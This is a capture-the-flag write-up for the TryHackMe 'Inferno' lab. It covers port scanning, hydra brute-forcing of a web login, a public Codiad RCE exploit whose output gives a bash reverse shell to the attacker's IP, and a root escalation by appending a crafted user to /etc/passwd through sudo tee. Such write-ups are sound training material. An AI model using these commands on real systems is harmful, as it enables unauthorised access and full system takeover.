


# Inferno

Available on: [TryHackMe](https://tryhackme.com/room/inferno)</br>
Made by: [mindsflee](https://tryhackme.com/p/mindsflee)
</br>
`export IP=10.10.44.236`

## Enumeration

Nmap: `nmap -sC -sV -vv -oN nmap.txt $IP`</br>
And oof.... this will be a massive one.:
```bash
21/tcp    open  ftp?              syn-ack ttl 63
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  telnet?           syn-ack ttl 63
25/tcp    open  smtp?             syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  kerberos-sec?     syn-ack ttl 63
106/tcp   open  pop3pw?           syn-ack ttl 63
110/tcp   open  pop3?             syn-ack ttl 63
389/tcp   open  ldap?             syn-ack ttl 63
443/tcp   open  https?            syn-ack ttl 63
464/tcp   open  kpasswd5?         syn-ack ttl 63
636/tcp   open  ldapssl?          syn-ack ttl 63
777/tcp   open  multiling-http?   syn-ack ttl 63
783/tcp   open  spamassassin?     syn-ack ttl 63
808/tcp   open  ccproxy-http?     syn-ack ttl 63
873/tcp   open  rsync?            syn-ack ttl 63
1001/tcp  open  webpush?          syn-ack ttl 63
1236/tcp  open  bvcontrol?        syn-ack ttl 63
1300/tcp  open  h323hostcallsc?   syn-ack ttl 63
2000/tcp  open  cisco-sccp?       syn-ack ttl 63
2003/tcp  open  finger?           syn-ack ttl 63
|_finger: ERROR: Script execution failed (use -d to debug)
2121/tcp  open  ccproxy-ftp?      syn-ack ttl 63
2601/tcp  open  zebra?            syn-ack ttl 63
2602/tcp  open  ripd?             syn-ack ttl 63
2604/tcp  open  ospfd?            syn-ack ttl 63
2605/tcp  open  bgpd?             syn-ack ttl 63
2607/tcp  open  connection?       syn-ack ttl 63
2608/tcp  open  wag-service?      syn-ack ttl 63
4224/tcp  open  xtell?            syn-ack ttl 63
5051/tcp  open  ida-agent?        syn-ack ttl 63
5432/tcp  open  postgresql?       syn-ack ttl 63
5555/tcp  open  freeciv?          syn-ack ttl 63
5666/tcp  open  nrpe?             syn-ack ttl 63
6346/tcp  open  gnutella?         syn-ack ttl 63
6566/tcp  open  sane-port?        syn-ack ttl 63
6667/tcp  open  irc?              syn-ack ttl 63
|_irc-info: Unable to open connection
8021/tcp  open  ftp-proxy?        syn-ack ttl 63
8081/tcp  open  blackice-icecap?  syn-ack ttl 63
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?       syn-ack ttl 63
9418/tcp  open  git?              syn-ack ttl 63
10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
10082/tcp open  amandaidx?        syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Now remember, when there are question marks, nmap isnt sure about the service. Lets start out with the web

### WEB


The source is bland and gives nothing, time for some gobuster.
```
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x js,txt,db,php,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.44.236/
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,py,js,txt,db
[+] Timeout:        10s
===============================================================
2021/02/25 03:00:48 Starting gobuster
===============================================================
/inferno (Status: 401)
```
I tried downloading the image fromt the page, and doing some stego, but nothing. Burpsuite up next

### BURPSUITE

Proved fruitless.

### Gaining `/inferno` creds

I made a `users.txt` list (just guessed them):
```
admin
dante
inferno
user
alligieri
```
then use `hydra`:
```bash
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $IP http-get /inferno/ -t 60 -I 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-25 03:26:00
[DATA] max 20 tasks per 1 server, overall 20 tasks, 71721995 login tries (l:5/p:14344399), ~3586100 tries per task
[DATA] attacking http-get://10.10.44.236:80/inferno/
[80][http-get] host: 10.10.44.236   login: admin   password: ******
```
Awesome, now lets go to `/inferno/` there fill in the popup, and whats this?

Another login page, lets try for creds reusage. And shebam! 

We are at an admin dashboard. This is `Codiad`. Lets see what we can do.

## DASHBOARD EXPLOITATION

We know that it is `Codiad` from the `.git` repo in the IDE. So lets google around for an exploit, and we have one:
```
git clone https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit.git
```
```bash
$ python2 exploit.py http://admin:******@$IP/inferno/ 'admin' '******' 10.8.147.71 8888 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.8.147.71/8889 0>&1 2>&1"' | nc -lnvp 8888
nc -lnvp 8889
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
```
Run the two commands in seperate terminals (or seperate terminator windows). We have a shell!!!

### STABLE SHELL

Right, so here is the thing. If you stay in your `bash` shell, it gets killed. Because there is a process on the system that kills `/bin/bash`. How do we get around that? Well, we use the less comfortable `/bin/sh`:
```bash
python3 -c "import pty;pty.spawn('/bin/sh')"
export TERM=xterm;export SHELL=/bin/sh

//press Ctrl + Z

stty raw -echo;fg
```
Lets look around now.

## local.txt

```bash
$ cd /home/
$ ls
dante
$ cd dante
$ ls
Desktop    Downloads  Pictures	Templates  local.txt
Documents  Music      Public	Videos
$ 
```
Right, so lets look at we can access:
```bash
$ ls -l
total 36
drwxr-xr-x 2 root  root  4096 Jan 11 15:29 Desktop
drwxr-xr-x 2 root  root  4096 Jan 11 15:29 Documents
drwxr-xr-x 2 root  root  4096 Jan 11 15:29 Downloads
drwxr-xr-x 2 root  root  4096 Jan 11 15:22 Music
drwxr-xr-x 2 root  root  4096 Jan 11 15:22 Pictures
drwxr-xr-x 2 root  root  4096 Jan 11 15:22 Public
drwxr-xr-x 2 root  root  4096 Jan 11 15:22 Templates
drwxr-xr-x 2 root  root  4096 Jan 11 15:22 Videos
-rw------- 1 dante dante   33 Jan 11 15:22 local.txt
```
So we can get into and read all the directories, lets check them out!
```bash
$ cd Desktop
$ ls -l
total 232
-rwxr-xr-x 1 root root  63704 Jan 11 15:29 inferno.txt
-rwxr-xr-x 1 root root  30904 Jan 11 15:22 paradiso.txt
-rwxr-xr-x 1 root root 137440 Jan 11 15:29 purgatorio.txt
```
Funny, after checking them out:
```bash
$ file *.txt
inferno.txt:    ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=864c9bbef111ce358b3452cf7ea457d292ba93f0, stripped
paradiso.txt:   ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7516179fdf8ec3353673a8abcfdf0b60ec2c3b8f, stripped
purgatorio.txt: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=003dbfa8e3bce6203f5b7d410020af2442937db6, stripped
```
They are binaries, inferno is `rm`, paradiso is `id` and purgatorio is `mv`. Nice. On to `Downloads/`
```bash
$ cd Downloads/ 
$ ls -l
total 4408
-rwxr-xr-x 1 root root  137440 Jan 11 15:29 CantoI.docx
-rwxr-xr-x 1 root root  141528 Jan 11 15:29 CantoII.docx
-rwxr-xr-x 1 root root   88280 Jan 11 15:29 CantoIII.docx
-rwxr-xr-x 1 root root   63704 Jan 11 15:29 CantoIV.docx
-rwxr-xr-x 1 root root  133792 Jan 11 15:29 CantoIX.docx
-rwxr-xr-x 1 root root   43224 Jan 11 15:22 CantoV.docx
-rwxr-xr-x 1 root root  133792 Jan 11 15:29 CantoVI.docx
-rwxr-xr-x 1 root root  141528 Jan 11 15:29 CantoVII.docx
-rwxr-xr-x 1 root root   63704 Jan 11 15:29 CantoX.docx
-rwxr-xr-x 1 root root  121432 Jan 11 15:29 CantoXI.docx
-rwxr-xr-x 1 root root  149080 Jan 11 15:22 CantoXII.docx
-rwxr-xr-x 1 root root  216256 Jan 11 15:22 CantoXIII.docx
-rwxr-xr-x 1 root root  141528 Jan 11 15:29 CantoXIV.docx
-rwxr-xr-x 1 root root  141528 Jan 11 15:29 CantoXIX.docx
-rwxr-xr-x 1 root root   88280 Jan 11 15:29 CantoXV.docx
-rwxr-xr-x 1 root root  137440 Jan 11 15:29 CantoXVI.docx
-rwxr-xr-x 1 root root  121432 Jan 11 15:29 CantoXVII.docx
-rwxr-xr-x 1 root root 2351792 Jan 11 15:22 CantoXVIII.docx
-rwxr-xr-x 1 root root   63704 Jan 11 15:29 CantoXX.docx
```
A lesson to be learned here. Look, boring right? Nothing interesting. Wrong!
```bash
$ ls -al
total 4420
drwxr-xr-x  2 root  root     4096 Jan 11 15:29 .
drwxr-xr-x 13 dante dante    4096 Jan 11 15:46 ..
-rw-r--r--  1 root  root     1511 Nov  3 11:52 .download.dat        <-- see that?
-rwxr-xr-x  1 root  root   137440 Jan 11 15:29 CantoI.docx
-rwxr-xr-x  1 root  root   141528 Jan 11 15:29 CantoII.docx
-rwxr-xr-x  1 root  root    88280 Jan 11 15:29 CantoIII.docx
-rwxr-xr-x  1 root  root    63704 Jan 11 15:29 CantoIV.docx
-rwxr-xr-x  1 root  root   133792 Jan 11 15:29 CantoIX.docx
-rwxr-xr-x  1 root  root    43224 Jan 11 15:22 CantoV.docx
-rwxr-xr-x  1 root  root   133792 Jan 11 15:29 CantoVI.docx
-rwxr-xr-x  1 root  root   141528 Jan 11 15:29 CantoVII.docx
-rwxr-xr-x  1 root  root    63704 Jan 11 15:29 CantoX.docx
-rwxr-xr-x  1 root  root   121432 Jan 11 15:29 CantoXI.docx
-rwxr-xr-x  1 root  root   149080 Jan 11 15:22 CantoXII.docx
-rwxr-xr-x  1 root  root   216256 Jan 11 15:22 CantoXIII.docx
-rwxr-xr-x  1 root  root   141528 Jan 11 15:29 CantoXIV.docx
-rwxr-xr-x  1 root  root   141528 Jan 11 15:29 CantoXIX.docx
-rwxr-xr-x  1 root  root    88280 Jan 11 15:29 CantoXV.docx
-rwxr-xr-x  1 root  root   137440 Jan 11 15:29 CantoXVI.docx
-rwxr-xr-x  1 root  root   121432 Jan 11 15:29 CantoXVII.docx
-rwxr-xr-x  1 root  root  2351792 Jan 11 15:22 CantoXVIII.docx
-rwxr-xr-x  1 root  root    63704 Jan 11 15:29 CantoXX.docx
```
A data file we can read. Lets look.
```
$ cat .download.dat
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 6c 31 30 68 33 6c 70 6d 33 0a
```
We can decode that with:
```
$ cat .download.dat | xxd -p -r
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:***********
```
Creds! Awesome! Now onto privesc.

## PRIVESC

Lets check if we have sudo rights:
```bash
$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```
Nice, we can run `tee` as root. At this point I looked at [gtfobins](https://gtfobins.github.io/):
```bash
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```
This allows for unrestriced file write, so what can we do? Well we can add a an entry to the `/etc/passwd` file, allowing us to make a new user with root privs:
```bash
openssl passwd -1 -salt pass pass
$1$pass$7n8dxi2NaFhr8AFSXoNso/
```
Password creation ^
```bash
$ echo "usr:\$1\$pass\$7n8dxi2NaFhr8AFSXoNso/:0:0:root:/root:/bin/sh"
```
Escaping the password to wirk in shell. And now to put it all together:
```bash
$ echo "usr:\$1\$pass\$7n8dxi2NaFhr8AFSXoNso/:0:0:root:/root:/bin/sh" | sudo tee -a /etc/passwd
```
Try it...
```bash
$ su usr
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
There we go. And go get your flag now.

